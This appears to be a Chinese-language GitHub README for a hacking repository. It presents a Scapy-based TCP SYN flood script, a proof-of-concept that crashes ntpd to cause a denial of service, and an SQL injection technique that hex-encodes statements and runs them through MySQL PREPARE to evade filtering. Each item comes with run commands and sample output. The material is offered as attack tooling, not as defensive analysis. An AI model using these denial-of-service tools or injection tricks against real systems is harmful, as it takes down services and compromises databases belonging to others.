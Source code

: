 ### synFlood.py 一个简单的 TCP SYN 洪水攻击 python版
```
More Detail:
python synFlood.py -h
1,用 Scapy 简单的复制一个 TCP SYN 洪水攻击，将制作一些 IP 数据包,  TCP 513 目标端口。
2,运行攻击发送 TCP SYN 数据包耗尽目标主机资源，填满它的连接队列，基本瘫 痪目标发送 TCP 重置包的能力。
3,netstat -an 大量的半链接状态 SYN_RECV

可能需要的依赖：
brew install --with-python libdnet

pip install scapy
pip install pcapy
pip install pydumbnet

执行效果:
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
....
```

### ntpDenialService.py 一个使ntp拒绝服务的poc代码
```
构造一个特殊的数据包，ntpd没有默认开启trap服务，如果trap被开启，攻击者就能通过特别构造的数据包导致空指针引、ntpd崩溃，进而导致服务器拒绝服务。
测试：
监听本地udp 1111 端口
➜  ~ nc -l -u 0 1111

执行：
➜  Hacking git:(master) ✗ python ntpDenialService.py 127.0.0.1 1111
[-] Sending payload to 127.0.0.1:1111 ...
[+] Done!

➜  ~ nc -l -u 0 1111

6nonce, laddr=[]:Hrags=32, laddr=[]:WOP2, laddr=[]:WOP

接受到这个特殊的数据包，ntpd崩溃，形成拒绝服务
```

### 分享一个SQL注入的技巧
```
审计开源框架/cms的时候可能会遇到一些有意思的注入漏洞
当以pdo的方式连接mysql，也就是说可以多语句执行的时候
然后，参考如下：

python:
import binascii
s='select * from x limit 1;'

print binascii.b2a_hex(s)
# 获得16进制数据，73656c656374202a2066726f6d2078206c696d697420313b

mysql -uroot
set @a:=0x73656c656374202a2066726f6d2078206c696d697420313b;

prepare s from @a;
```